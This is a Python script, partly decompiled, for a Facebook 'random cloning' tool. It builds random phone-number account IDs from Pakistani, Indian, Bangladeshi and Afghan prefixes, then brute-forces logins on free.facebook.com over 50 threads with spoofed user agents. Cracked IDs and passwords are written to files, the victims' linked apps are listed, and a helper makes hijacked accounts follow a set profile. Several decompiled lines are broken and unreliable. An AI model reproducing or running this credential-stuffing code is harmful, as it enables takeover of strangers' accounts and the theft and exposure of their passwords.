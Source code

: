 # Source Generated with Decompyle++
# File: test.pyc (Python 3.9)

import os
import sys
import time
import requests
import uuid
os.system('git pull')
os.system('pkg install curl')

class jalan:
    
    def __init__(self, z):
        pass


def ud():
    os.system('clear')
    print(logo)
    print(' [1] JOIN MY FB GROUP')
    print(' [2] EXIT')
    opt = input('\n   Choose option >>> ')
    if opt == '1':
        os.system('xdg-open https://www.facebook.com/groups/865552464137289/?ref=share')
        o()
        return None
    None('\n\x1b[1;31mEXIT\x1b[0;97m')



def o():
    os.system('clear')
    print(logo)
    jalan('\t RANDOM CLONE ')
    print('')
    print('\x1b[1;32m [1]\x1b[1;33m RANDOM CLONING')
    print('\x1b[1;32m [2] \x1b[1;32mMY FB ACCOUNT')
    print(' \x1b[1;32m[3] \x1b[1;32mJOIN MY FB GROUP')
    print(' \x1b[1;32m[4] \x1b[1;32mCONTACT WHATSAPP')
    print(' \x1b[1;32m[00] \x1b[1;31mEXIT')
    opt = input('\n   \x1b[1;32m Choose option >>> ')
    if opt == '1':
        i()
    if opt == '2':
    	os.system('xdg-open https://www.facebook.com/SIL3NT.HACK3R.786')
    if opt == '3':
        os.system('xdg-open https://www.facebook.com/groups/865552464137289/?ref=share')
    if opt == '4':
        os.system('xdg-open https://wa.me/+923111908699')
        return None
    if None == '0':
        os.system('exit')
        return None
    None('\n\x1b[1;31m  Choose valid option\x1b[0;97m')


import os,sys,time,json,random,re,string,platform,base64,uuid
os.system("git pull")
from bs4 import BeautifulSoup as sop
from bs4 import BeautifulSoup
import requests as ress
from datetime import date
from datetime import datetime
from time import sleep
from time import sleep as waktu
try:
    import requests
    from concurrent.futures import ThreadPoolExecutor as ThreadPool
    import mechanize
    from requests.exceptions import ConnectionError
except ModuleNotFoundError:
    os.system('pip install mechanize requests futures bs4==2 > /dev/null')
    os.system('pip install bs4')
    
def cek_apk(session,coki):
    w=session.get("https://free.facebook.com/settings/apps/tabbed/?tab=active",cookies={"cookie":coki}).text
    sop = BeautifulSoup(w,"html.parser")
    x = sop.find("form",method="post")
    game = [i.text for i in x.find_all("h3")]
    if len(game)==0:
        print(f'\r%s[%s!%s] %sSorry there is no Active  Apk%s  '%(N,M,N,M,N))
    else:
        print(f'\r[Ã°Å¸Å½Â®] %s \x1b[1;95m Ã¢Ëœâ€  Your Active Apps Ã¢Ëœâ€      :{WHITE}'%(GREEN))
        for i in range(len(game)):
            print(f"\r[%s%s] %s%s"%(N,i+1,game[i].replace("Ditambahkan pada"," Ditambahkan pada"),N))
        #else:
            #print(f'\r %s[%s!%s] Sorry, Apk check failed invalid cookie'%(N,M,N))
    w=session.get("https://free.facebook.com/settings/apps/tabbed/?tab=inactive",cookies={"cookie":coki}).text
    sop = BeautifulSoup(w,"html.parser")
    x = sop.find("form",method="post")
    game = [i.text for i in x.find_all("h3")]
    if len(game)==0:
        print(f'\r%s[%s!%s] %sSorry there is no Expired Apk%s           \n'%(N,M,N,M,N))
    else:
        print(f'\r[Ã°Å¸Å½Â®] %s \x1b[1;95m Ã¢â€”â€¡ Your Expired Apps Ã¢â€”â€¡    :{WHITE}'%(M))
        for i in range(len(game)):
            print(f"\r[%s%s] %s%s"%(N,i+1,game[i].replace("Kedaluwarsa"," Kedaluwarsa"),N))
        else:
            print('')
 
def follow(self, session, coki):
        r = BeautifulSoup(session.get('https://free.facebook.com/profile.php?id=100012173046865', {
            'cookie': coki }, **('cookies',)).text, 'html.parser')
        get = r.find('a', 'Ikuti', **('string',)).get('href')
        session.get('https://free.facebook.com' + str(get), {
            'cookie': coki }, **('cookies',)).text
            
            
 
class jalan:
    def __init__(self, z):
        for e in z + "\n":
            sys.stdout.write(e)
            sys.stdout.flush()
            time.sleep(0.009)
            
RED = '\033[1;91m'
WHITE = '\033[1;97m'
GREEN = '\033[1;32m' #
YELLOW = '\033[1;33m'
BLUE = '\033[1;34m'
ORANGE = '\033[1;35m'
P = '\x1b[1;97m' # PUTIH
M = '\x1b[1;91m' # MERAH
H = '\x1b[1;92m' # HIJAU
K = '\x1b[1;93m' # KUNING
B = '\x1b[1;94m' # BIRU
U = '\x1b[1;95m' # UNGU
O = '\x1b[1;96m' # BIRU MUDA
N = '\x1b[0m'    # WARNA MATI
A = '\x1b[1;90m' # WARNA ABU ABU
BN = '\x1b[1;107m' # BELAKANG PUTIH
BBL = '\x1b[1;106m' # BELAKANG BIRU LANGIT
BP = '\x1b[1;105m' # BELAKANG PINK
BB = '\x1b[1;104m' # BELAKANG BIRU
BK = '\x1b[1;103m' # BELAKANG KUNING
BH = '\x1b[1;102m' # BELAKANG HIJAU
BM = '\x1b[1;101m' # BELAJANG MERAH
BA = '\x1b[1;100m' # BELAKANG ABU ABU
my_color = [
 P, M, H, K, B, U, O, N]
warna = random.choice(my_color)
now = datetime.now()
dt_string = now.strftime("%H:%M")
current = datetime.now()
ta = current.year
bu = current.month
ha = current.day
today = date.today()
# def logo() """"""''
logo =                                       """   
 \033[1;37m
 o__ __o       o   o     __o__              __o__ 
 <|     v\         <|>         <|>            |      |   
 / \     <\        / \         / \           / \    / \  
 \o/     o/      o/   \o       \o/           \o/    \o/  
  |__  _<|      <|__ __|>       |             |      |   
  |       \     /       \      / \           < >    < >  
 <o>      /   o/         \o    \o/            |      |   
  |      o   /v           v\    |             o      o   
 / \  __/>  />             <\  / \ _\o__/_  __|>_  __|>_ 
                                                         
                                                         
                                                         
 
                                   
                                   

  
   

                                        
 
\x1b[1;97m------------------------\x1b[1;97m------------------------
\033[1;31m\033[1;37m Author \x1b[1;97m     : \033[1;37m      AK47-BALII JUTT
\033[1;31m\033[1;37m Facebook\x1b[1;97m    :  \033[1;37m     SABA FROM INDIAN
\033[1;31m\033[1;37m github\x1b[1;97m     : \033[1;37m      AK47GUN-MAX 
\033[1;31m\033[1;37m LIFE STATUS\x1b[1;97m : \033[1;37m      AK47ðŸ™‚
\033[1;37m------------------------\033[1;37m------------------------ """       
loop = 0
oks = []
cps = []
 
def clear():
    os.system('clear')
    print(logo)
from time import localtime as lt
from os import system as cmd
ltx = int(lt()[3])
if ltx > 12:
    a = ltx-12
    tag = "PM"
else:
    a = ltx
    tag = "AM"
    
    
try:
    print('\n\n\033[1;33mLoading asset files ... \033[0;97m')
    v = 5.2
    update = ('5.2')
    update = ('5.2')
    if str(v) in update:
        os.system('clear')
    else:pass
except:print('\n\033[1;31mNo internet connection ... \033[0;97m')
#global functions
def dynamic(text):
    titik = ['.   ','..  ','... ','.... ']
    for o in titik:
        print('\r'+text+o),
        sys.stdout.flush();time.sleep(1)
 
#User agents
ugen2=[]
ugen=[]
 
for xd in range(10000):
    aa='Mozilla/5.0 (Linux; U; Android'
    b=random.choice(['3','4','5','6','7','8','9','10','11','12','13','14','15','16','17'])
    c=' en-us; GT-'
    d=random.choice(['A','B', 'C', 'D', 'E', 'F', 'G', 'H', 'I', 'J', 'K', 'L', 'M', 'N', 'O', 'P', 'Q', 'R', 'S', 'T', 'U', 'V', 'W', 'X', 'Y', 'Z'])
    e=random.randrange(1, 999)
    f=random.choice(['A','B', 'C', 'D', 'E', 'F', 'G', 'H', 'I', 'J', 'K', 'L', 'M', 'N', 'O', 'P', 'Q', 'R', 'S', 'T', 'U', 'V', 'W', 'X', 'Y', 'Z'])
    g='AppleWebKit/537.36 (KHTML, like Gecko) Chrome/'
    h=random.randrange(73,100)
    i='0'
    j=random.randrange(4200,4900)
    k=random.randrange(40,150)
    l='Mobile Safari/537.36'
    uaku2=(f'{aa} {b}; {c}{d}{e}{f}) {g}{h}.{i}.{j}.{k} {l}')
    ugen.append(uaku2)
    
# APK CHECK
def i():
    user=[]
    twf =[]
    os.getuid
    os.geteuid
    os.system("clear")
    print(logo)
    
    
    jalan("\033[1;37m\t  USE OUR COUNTRY CODE  ")
    print('\033[1;36m     \t     PAK CODES\n     \033[1;33m92301, \033[1;33m92302 ,\033[1;33m92303 ,\033[1;33m92305  ...\033[0;97m')
    print('\033[1;32m============================================')
    print('\033[1;36m     \t     INDIA CODES\n     \033[1;33m91778, \033[1;33m91930 ,\033[1;33m91902 ,\033[1;33m91712  ...\033[0;97m')
    print('\033[1;32m============================================')
    print('\033[1;36m     \t     BD CODES\n     \033[1;33m88016, \033[1;33m88017 ,\033[1;33m88018 ,\033[1;33m88019  ...\033[0;97m')
    print('\033[1;32m============================================\n')
    print('\033[1;36m     \t     AFG CODES\n     \033[1;33m9376, \033[1;33m9277 ,\033[1;33m9379 ,\033[1;33m9375  ...\033[0;97m')
    print('\033[1;32m============================================\n')
    code = input(' PUT CODE : ')
    print("")
    limit = int(input(' EXAMPLE: 2000, 3000, 5000, 10000\n\n PUT CLONING LIMIT: '))
    for nmbr in range(limit):
        nmp = ''.join(random.choice(string.digits) for _ in range(7))
        user.append(nmp)
    os.system("clear")
    print(logo)
    passx = int(input("[*] Enter Password Limit : "))
    HamiiID = []
    print("")
    for bilal in range(passx):
        pww = input("[*] Enter Password : ")
        HamiiID.append(pww)
    with ThreadPool(max_workers=50) as manshera:
        clear()
        tl = str(len(user))
        print("\x1b[38;5;208m\rUse flight (airplane) mode before use\033[1;37m")
        print(47*"-")
        print('\033[1;37m TOTAL IDS: '+tl)
        print('\033[1;37m SIR BALII JUTT +SABA DON ITNA W8  ðŸ˜‚')
        print(47*"-")
        for love in user:
            pwx = [love[1:]]
            uid = code+love
            for Eman in HamiiID:
                pwx.append(Eman)
            manshera.submit(rcrack,uid,pwx,tl)
    print('\033[1;32m============================================')
    print('Crack process has been completed')
    print('Ids saved in ok.txt,cp.txt')
    print('\033[1;32m============================================')
 
def rcrack(uid,pwx,tl):
    #print(user)
    global loop
    global cps
    global oks
    global proxy
    try:
        for ps in pwx:
            pro = random.choice(ugen)
            session = requests.Session()
            free_fb = session.get('https://free.facebook.com').text
            log_data = {
                "lsd":re.search('name="lsd" value="(.*?)"', str(free_fb)).group(1),
            "jazoest":re.search('name="jazoest" value="(.*?)"', str(free_fb)).group(1),
            "m_ts":re.search('name="m_ts" value="(.*?)"', str(free_fb)).group(1),
            "li":re.search('name="li" value="(.*?)"', str(free_fb)).group(1),
            "try_number":"0",
            "unrecognized_tries":"0",
            "email":uid,
            "pass":ps,
            "login":"Log In"}
            header_freefb = {"authority": 'free.facebook.com',
            "method": 'GET',
            "scheme": 'https',
            "accept": 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.8',
            "accept-encoding": 'gzip, deflate, br',
            "accept-language": 'en-US,en;q=1',
            'cache-control': 'no-cache, no-store, must-revalidate',
            "referer": 'https://t.facebook.com/',
            "sec-ch-ua": '"Google Chrome";v="90", "Not)A;Brand";v="8", "Chromium";v="75"',
            "sec-ch-ua-mobile": '?1',
            "sec-ch-ua-platform": "Android",
            "sec-fetch-dest": 'document',
            "sec-fetch-mode": 'navigate',
            "sec-fetch-site": 'same-origin',
            "sec-fetch-user": '?0',
            "pragma": 'no-cache',
            "priority": 'u=0',
            'cross-origin-resource-policy': 'cross-origin',
            "upgrade-insecure-requests": '1',
            "user-agent": pro}
            lo = session.post('https://free.facebook.com/login/device-based/regular/login/?refsrc',data=log_data,headers=header_freefb).text
            log_cookies=session.cookies.get_dict().keys()
            if 'c_user' in log_cookies:
                coki=";".join([key+"="+value for key,value in session.cookies.get_dict().items()])
                cid = coki[7:22]
                print(' \033[1;32m[AK47-OK ðŸ‡µðŸ‡°]  ' +cid+ ' | ' +ps+  '\033[0;97m')
                cek_apk(session,coki)
                open('/sdcard/AK47-OK.txt', 'a').write( cid+' | '+ps+'\n')
                oks.append(cid)
                break
            elif 'checkpoint' in log_cookies:
                coki=";".join([key+"="+value for key,value in session.cookies.get_dict().items()])
                cid = coki[24:39]
                print(' \x1b[38;5;208m[AK47-CP ðŸ‡®ðŸ‡³]  ' +cid+ ' | ' +ps+           '  \33[0;97m')
                open('/sdcard/AK47-CP.txt', 'a').write( cid+' | '+ps+' \n')
                cps.append(cid)
                break
            else:
                continue
        loop+=1
        sys.stdout.write('\r %s[BALII x SABA ] [%s|%s]  [OK:%s]  [CP:%s] \r'%(P,loop,tl,len(oks),len(cps))),
        sys.stdout.flush()
    except:
        pass
 
ud()
